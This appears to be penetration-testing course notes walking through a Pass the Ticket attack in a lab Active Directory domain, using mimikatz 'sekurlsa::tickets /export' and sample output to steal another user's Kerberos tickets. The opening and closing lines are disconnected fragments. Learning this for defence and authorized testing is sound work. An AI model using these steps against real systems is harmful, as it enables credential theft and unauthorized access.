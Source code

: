 ``` PowerShell
FILES04
```
+ As evidenced by the output, we have successfully reused the Kerberos TGT to launch a command shell on the files04 server
+ We have successfully upgraded a cached NTLM password hash to a Kerberos TGT to gain remote code execution on behalf of another user

### Pass the Ticket
In the previous section, we used the overpass the hash technique (along with the captured NTLM hash) to acquire a Kerberos TGT, allowing us to authenticate using Kerberos
+ We can only use the TGT on the machine it was created for, but the TGS potentially offers more flexibility

The _Pass the Ticket_ attack takes advantage of the TGS, which may be exported and re-injected elsewhere on the network and then used to authenticate to a specific service
+ In addition, if the service tickets belong to the current user, then no administrative privileges are required

In this scenario, we are going to abuse an already existing session of _dave_
+ The _dave_ user has privileged access to the _backup_ folder located on WEB04 where our logged in user _jen_ does not

To demonstrate the attack angle, we are going to extract all the current TGT/TGS in memory and inject _dave_'s WEB04 TGS into our own session
+ This will allow us to access the restricted folder

Let's first log in as _jen_ to CLIENT76 and verify that we are unable to access the resource on WEB04
+ To do so, we'll try to list the content of the `\\web04\backup` folder from an administrative PowerShell command line session:
```
PS C:\Windows\system32> whoami
corp\jen
PS C:\Windows\system32> ls \\web04\backup
ls : Access to the path '\\web04\backup' is denied.
At line:1 char:1
+ ls \\web04\backup
+ ~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (\\web04\backup:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
```

Confirming that _jen_ has no access to the restricted folder, we can now launch mimikatz, enable debug privileges, and export all the TGT/TGS from memory with the **`sekurlsa::tickets /export`** command:
```
sekurlsa::tickets /export
```
+ Example:
```
mimikatz #privilege::debug
Privilege '20' OK

mimikatz #sekurlsa::tickets /export

Authentication Id : 0 ; 2037286 (00000000:001f1626)
Session           : Batch from 0
User Name         : dave
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/14/2022 6:24:17 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1103

         * Username : dave
```

[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname